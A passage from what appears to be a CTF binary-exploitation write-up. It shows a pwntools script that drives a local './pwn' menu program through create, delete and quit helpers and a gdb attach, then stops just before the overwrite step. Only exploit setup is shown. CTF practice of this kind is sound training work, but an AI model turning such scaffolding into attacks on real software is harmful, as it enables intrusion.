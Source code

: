 ```python
from typing import Literal, Optional, AnyStr
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process(['./pwn'])


def menu(index: Literal[1, 2, 3]):
    sh.recvuntil(b"3.quit")
    if index == 1:
        sh.sendline(b"create string")
        return
    if index == 2:
        sh.sendline(b"delete string")
        return
    if index == 3:
        sh.sendline(b"quit string")


def create(length_: int, content: AnyStr):
    menu(1)
    sh.sendlineafter(b"Pls give string size:", str(length_).encode())
    content = content if isinstance(content, bytes) else str(content).encode()
    content = content.ljust(length_, b'\x00')
    sh.sendlineafter(b"str:", content)


def delete(index: int, extra: Optional[AnyStr] = b''):
    menu(2)
    sh.sendlineafter(b"id:", str(index).encode())
    if isinstance(extra, str):
        extra = extra.encode()
    sh.sendlineafter(b"Are you sure?:", b"yes" + extra)


def quit_():
    menu(3)


def gdb_(time_: Optional[int] = None, arg: Optional[str] = None):
    gdb.attach(sh, arg)
    pause(time_)

```

First, set up the basic menu functions.

Following our approach, let's try to overwrite the following:
